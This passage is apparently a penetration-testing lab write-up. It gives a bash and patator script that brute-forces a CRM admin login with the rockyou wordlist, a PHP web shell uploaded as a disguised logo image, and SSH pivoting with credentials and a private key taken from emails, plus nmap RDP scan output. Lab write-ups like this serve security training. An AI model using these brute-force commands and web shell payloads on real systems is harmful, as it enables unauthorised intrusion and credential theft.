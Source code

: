 ```
#!/bin/bash
bulk=$(curl -sD headers.txt -A "Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0" "http://192.168.101.10:88/index.php")
echo ${bulk}
CSRF=$(echo ${bulk} |grep "sid:" | cut -d ":" -f3 | cut -d ";" -f1)
SESSID=$(cat headers.txt | grep PHPSESSID | cut -d " " -f2 | cut -d ";" -f1)
echo ${CSRF}
echo ${SESSID}

patator http_fuzz url="http://192.168.101.10:88/index.php?module=Users&action=Login" method=POST body="__vtrftk=sid:_CSRF_&username=admin&password=FILE0" 0=/usr/share/wordlists/rockyou.txt follow=1 accept_cookie=0 header="Cookie: ${SESSID}" before_urls="http://192.168.101.10:88/index.php" before_header="Cookie: ${SESSID}" before_egrep='_CSRF_:var csrfMagicToken = "(\S+)"' -x ignore:egrep="Invalid username or password"
```

Logging in with our founded credentials admin:blackstar, we can now use the exploit we found earlier. We can execute commands by uploading a php as an image through the logo upload.

```
root@kali:~# touch shell.jpg
put in <? echo shell_exec($_GET['cmd']); ?>

Goto cog icon > CRM settings > (left toolbar) template > Company Details > upload shell.jpg
With Burp intercept and change the .jpg to .php
Now we can visit: http://192.168.101.10:88/test/logo/shell.php?commands=ls
Browsing the directory, we can find http://192.168.101.10:88/test/logo/shell1.php?cmd=cat%20%20/var/www/rce_token.txt
Give_me_all 
```

### RDP Token

Looking at the emails section, we see admin@test.lab with password darthvadar. We will log in on `192.168.101.10:8080` and find an email with a private RSA key, username tech from Matthew from Office 2.

```
Create privkey with RSA private key
root@kali:~/test# chmod 600 privkey
root@kali:~# ssh tech@192.168.101.11 -p 2222 -i privkey.key
root@kali:~/test# ssh tech@192.168.101.11 -p 2222 -i ~/test/privkey
You have new mail.
Last login: Sun Oct  8 22:57:11 2017 from 10.10.0.90
##########################
PasswordAuthentication no
##########################

3389/tcp open  ms-wbt-server Microsoft Terminal Service
Service Info: OS: Windows

Nmap scan report for 192.168.13.2
Host is up (0.0025s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Service
Service Info: OS: Windows

Nmap scan report for 192.168.13.3
Host is up (0.0023s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Service
Service Info: OS: Windows

```